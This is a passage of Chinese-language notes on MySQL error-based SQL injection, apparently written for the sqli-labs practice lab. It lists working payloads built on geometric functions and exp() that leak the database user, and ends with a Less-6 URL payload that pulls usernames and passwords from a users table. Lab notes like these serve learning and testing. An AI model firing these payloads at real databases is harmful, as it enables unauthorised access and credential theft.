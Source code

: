 - **geometrycollection函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multipoint函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **polygon函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multipolygon函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **linestring函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **multilinestring函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
    * 运用
    * 使用注意

- **exp函数注入**
    * 函数介绍
    * 写法
		> select * from test where id=1 and exp(~(select * from(select user())a));
    * 运用
    * 使用注意

## 第六关 基于GET双引号双注入 
和第五关类似，只要用双引号闭合即可
> http://127.0.0.1/sqlilabs2/Less-6/index.php?id=-1" union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1))x from information_schema.tables group by x%23
